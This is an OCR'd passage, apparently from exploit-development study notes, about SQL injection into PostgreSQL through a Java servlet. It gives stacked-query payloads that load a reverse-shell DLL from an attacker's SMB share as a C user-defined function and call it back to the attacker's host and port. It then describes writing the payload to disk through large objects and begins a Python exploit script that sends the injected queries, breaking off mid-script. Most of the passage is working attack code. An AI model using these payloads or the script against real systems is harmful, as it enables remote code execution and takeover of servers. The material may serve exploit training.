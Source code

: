 ```c
}
```

Below are some example queries we can execute on the target PostgreSQL server to
download the reverse shell, user-defined extension library file payload and
execute it:

```python
self.queries = [
            ";DROP+FUNCTION+rev_shell(text,integer);--+",
            f";CREATE+OR+REPLACE+FUNCTION+rev_shell(text,integer)+RETURNS+void+AS+$$\\\\{lhost}\\{samba}\\rev_shell.dll$$,$$rev_shell$$+LANGUAGE+C+STRICT;--+",
            f";SELECT+rev_shell($${lhost}$$,{lport});--+",
        ]
```

## Large objects

We often don't have the ability to get the victim to download our payload from
our attacker host using SMB. How can we transfer the payload with our existing
ability to execute arbitrary queries? With PostgreSQL large objects, we can read
and write files from the file system, as well as edit existing large objects
within the database with our payloads.

In the following Python script, we conduct the following actions:

- We read `C:\Windows\win.ini` from disk, creating a large object in the
  database
- We clobber the large object's contents with our payload
- We write our payload to `C:\Windows\Temp\rev_shell.dll`
- We create a new user-defined function from our payload
- We execute the user-defined function, triggering the reverse shell, calling
  back to our attacker host

```python
import http.client
from argparse import ArgumentParser
from random import randint

import requests

http.client.HTTPConnection.debuglevel = 1
requests.packages.urllib3.disable_warnings()
HEADERS = {"Content-Type": "application/x-www-form-urlencoded"}
API_ENDPOINT = "/servlet/AMUserResourcesSyncServlet"
PARAMS = "ForMasRange=1&userId=1"


class Solution:
    def __init__(
        self, url: str, lhost: str, lport: int, filename: str, id: int
    ) -> None:
        self.s = requests.Session()
        self.url = f"{url.rstrip("/")}{API_ENDPOINT}"
        self.lhost, self.lport, self.filename, self.loid = lhost, lport, filename, id

    def execute_query(self, query) -> None:
        req = requests.Request(
            "POST", self.url, data=PARAMS + ";" + query + ";--+", headers=HEADERS
        )
        prepped = self.s.prepare_request(req)
        self.s.send(prepped, verify=False)

    def solve(self) -> None:
        # Delete existing user-defined function (UDF)
        # Unlink existing large object w/ ID
```